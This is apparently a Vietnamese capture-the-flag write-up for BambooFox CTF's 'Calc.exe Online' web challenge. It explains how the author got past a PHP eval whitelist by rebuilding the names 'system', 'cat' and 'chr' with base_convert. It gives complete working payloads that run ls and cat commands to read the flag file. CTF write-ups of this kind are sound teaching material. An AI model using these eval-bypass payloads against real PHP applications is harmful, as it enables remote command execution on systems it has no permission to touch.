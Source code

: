 # write up

Chall: http://chall.ctf.bamboofox.tw:13377/

Source: https://github.com/rimc2t/write-up-cho-vui/blob/main/BambooFox-CTF/%5BWeb%5D%20Calc.exe%20Online/source.php

Cùng nhìn tổng quan đề bài 1 xíu nhé!!!!

## Overview

![hinh1](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/139404612_1360916280927703_9149939801016827697_n.png?_nc_cat=110&ccb=2&_nc_sid=730e14&_nc_ohc=ve9-OBZQPt4AX9JueT5&_nc_ht=scontent.fsgn2-6.fna&oh=0f8e721f4bf481312e71ad7a610e3cb4&oe=6028F116)

Ctr+U coi đi kiếm source xíu. Ồ cho file source nè:

![hinh3](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/138395872_1360917480927583_7950565622394537985_n.png?_nc_cat=100&ccb=2&_nc_sid=730e14&_nc_ohc=HMV2LUg9jkUAX8eqRtb&_nc_ht=scontent.fsgn2-6.fna&oh=37fd2f612f637ea1f216aa900d2adc8c&oe=602818A5)

![hinh4](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/139193741_1360967837589214_4621736347075272027_n.png?_nc_cat=100&ccb=2&_nc_sid=730e14&_nc_ohc=7aM6q8fo3K8AX8SNyCb&_nc_ht=scontent.fsgn2-6.fna&oh=c0f13bebd2a13e2a6328c4dab36ed650&oe=60280BD5)

Nào như mọi lần tui bắt đầu đi đọc code và kết luận vài dòng:

- Đây là code php
- Có 2 cái function
- Param của mình truyền vào là đi qua hàm **safe_eval**
- Trong **safe_eval**, nó đưa param của mình cho **is_safe** kiểm tra
- Trong **is_safe**, nó bắt đầu chạy code các kiểu -> tóm tắt lại rằng: Chỉ được dùng các hàm trong toàn học, và toán tử +-\*/
- Sau khi **is_safe** true sẽ cho chúng ta thực thi (eval), ngược lại sẽ xuất ra màn hình 1 chuỗi.

> Vậy giải pháp rút ra là phải inject vào 1 đoạn code sao cho hàm **is_safe** trả về true rồi tạo thành 1 command có nghĩa để thực thi được đến server server.

## SEEKING
Mình là một con gà mờ về ctf. Nên khi đọc vào trong đầu nghĩ là *"Ủa? sao được ta? hàm của toán để nó thành command có nghĩa kiểu gì?"*. Quyết định ăn miếng bánh thư giãn cho đầu óc suy nghĩ ngoài cái hộp. Ngẫm nghĩ lại lúc trước có làm (đọc write up làm theo) một số bài web thì các bài liên quan đến **eval()** thì exploit trực tiếp vô luôn, còn cái này có *filter* thì thường dùng những kỹ thuật xor hay bằng cách nào đấy biến số thành chữ.

>Thế là mình quyết định đi tìm các hàm biến số thành chữ hêh

Lúc đầu đi tìm thì mình thấy 1 vài hàm như **dechex** **decoct** thì mình dzui vì thấy có khả năng, mà nghĩ lại: *"Ủa :)) phải có đủ bảng chữ cái chứ, hong ổn rồi"*
Một hồi mình nhìn kỹ xíu nữa thì thấy 1 hàm **base_convert**, hehe nghe xịn mình liền lên w3school tìm hướng dẫn sử dụng (tại w3 có chỗ debug luôn nên mình ưu tiên).

![hinh5](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/139701687_1360932737592724_2820394334159202042_n.png?_nc_cat=100&ccb=2&_nc_sid=730e14&_nc_ohc=HND36JbcqNYAX_Rhwq7&_nc_ht=scontent.fsgn2-6.fna&oh=ddfb680eaf96e04f88bb9ba9b463eed4&oe=6027B6DF)

![hinh6](https://scontent.fsgn2-3.fna.fbcdn.net/v/t1.0-9/139477082_1360935034259161_5270276016675269189_n.png?_nc_cat=106&ccb=2&_nc_sid=730e14&_nc_ohc=yYgHu-x5GasAX9knpwh&_nc_ht=scontent.fsgn2-3.fna&oh=98630cfbf2d6a09f6fb8def9ee4edaf9&oe=60291091)

Thử chuyển hệ 36 sang hệ 10 luôn nè:

![hinh7](https://scontent.fsgn2-3.fna.fbcdn.net/v/t1.0-9/139718552_1360935947592403_3256650028083666150_n.png?_nc_cat=106&ccb=2&_nc_sid=730e14&_nc_ohc=mLDYAutpJscAX_No6zB&_nc_ht=scontent.fsgn2-3.fna&oh=93b0061201edcfdda66df394016cf1c4&oe=6029D635)

Hehe boizzz, ngonnnnn

>Sau khi đã tìm được hồ cá, lượm được cần câu. Giờ phải dùng kỹ năng đi câu hoyyyyyyyyy

## INJECTION
Quay lại với hình 1 nhé, coi lại chỗ để nhập phép tính. Trong đầu phải ghi nhớ rằng: *"Bây giờ phải dùng **base_convert** để biến những con số thành 1 command có nghĩa rồi bỏ vô payload này nhaaaa"*

### system(ls)

>system():					base_convert(1751504350,10,36)()

>ls:						    base_convert(784,10,36)

>**PAYLOAD: base_convert(1751504350,10,36)(base_convert(784,10,36))**

Sau đó sẽ trả về kết quả:

![hinh8](https://scontent.fsgn2-3.fna.fbcdn.net/v/t1.0-9/139471146_1360942944258370_7846989612733427119_n.png?_nc_cat=106&ccb=2&_nc_sid=730e14&_nc_ohc=x7CD47HUc1kAX85inpR&_nc_ht=scontent.fsgn2-3.fna&oh=d451023b8209c672721204c1e1177bbd&oe=6026CED9)

Ò ở đây chỉ có index chứ hong có flag :(
Mình đi ra thư mục gốc xem thử có flag ngoài đó hong

### system(ls /)
Lúc này có cái khó khăn là có khoảng trắng và dấu '/'. hmmmmm? làm shaooooo?
Mình tìm mọi cách và được chỉ dẫn đến sử dụng **ord** để lấy mã ascii 1 chữ và **chr** để đổi ascii ra ký tự. Việc mình cần làm là gọi hàm **chr** thông qua hàm **base_convert** và số (số này là đổi chuỗi "chr" từ base-36 sang base-10). Tiếp đó dùng các dấu '.' để nối các hàm lại với nhau.
>system():					base_convert(1751504350,10,36)()

>ls:						    base_convert(784,10,36)

>space:             base_convert(16191,10,36)(32)

>/:                 base_convert(16191,10,36)(47)

>**PAYLOAD: base_convert(1751504350,10,36)(base_convert(784,10,36).base_convert(16191,10,36)(32).base_convert(16191,10,36)(47))**

Nhận ngay kết quả: 

![hinh9](https://scontent.fsgn2-4.fna.fbcdn.net/v/t1.0-9/137328100_1360948444257820_2551682331755669394_n.png?_nc_cat=101&ccb=2&_nc_sid=730e14&_nc_ohc=LNzI_tUCEPsAX9gLo1d&_nc_ht=scontent.fsgn2-4.fna&oh=113d5590d5f2fa6155970803f6328907&oe=60294521)

Á à thì ra flag nằm ngày đây: **flag_a2647e5eb8e9e767fe298aa012a49b50**
Giờ thì mình mở ra xem hoyyyyy

### system(cat /flag_a2647e5eb8e9e767fe298aa012a49b50)

>system():					                  base_convert(1751504350,10,36)()

>cat:						                      base_convert(15941,10,36)

>space:						                    .base_convert(16191,10,36)(32)

>/:						                        .base_convert(16191,10,36)(47)

>flag:					                    	.base_convert(727432,10,36)

>_:				                         		.base_convert(16191,10,36)(95)

>a2647e5eb8e9e767fe298aa012a49b50):		.base_convert(788365066082,10,36).base_convert(880282369231,10,36).base_convert(1206073849608,10,36).base_convert(83329543332,10,36)


Đoạn nào chữ thôi thì mình chỉ cnầ dùng **base_convert** còn đoạn nào có ký tự đặc biệt thì mình kết hợp với **chr** (16191 base36) nữa nhé!
Ở chuỗi chữ và số dài loằng ngoằng kia ban đầu mình chỉ dùng 1 lần **base_convert** nhưng mà nó bị tràn số ra kết quả hong chính xác nên mình chia thành 4 đoạn.
Giờ chỉ cần ghép lại tất cả để có payload chính xác:

>**PAYLOAD: base_convert(1751504350,10,36)(base_convert(15941,10,36).base_convert(16191,10,36)(32).base_convert(16191,10,36)(47).base_convert(727432,10,36).base_convert(16191,10,36)(95).base_convert(788365066082,10,36).base_convert(880282369231,10,36).base_convert(1206073849608,10,36).base_convert(83329543332,10,36)) **

Hơi dài nhưng chỉ 405chars vẫn thỏa < 1024 của đề bài. Cuối cùng nhận được kết quả:

![hinh10](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/139449877_1360956844256980_5107937802172987774_n.png?_nc_cat=110&ccb=2&_nc_sid=730e14&_nc_ohc=c2LKQLlWJnwAX8XJqRI&_nc_ht=scontent.fsgn2-6.fna&oh=652d2a0cf660532758b0dfc732742e23&oe=60277931)


***Trên đây là tất cả write-up của mình về bài "Calc.exe Onl", trình còn kém nên làm còn mơ hồ, diễn giải có thể màu mè hoặc không đúng. Mong bạn đọc có thể đóng góp ý kiến <3 Chân thành cảm ơn!***
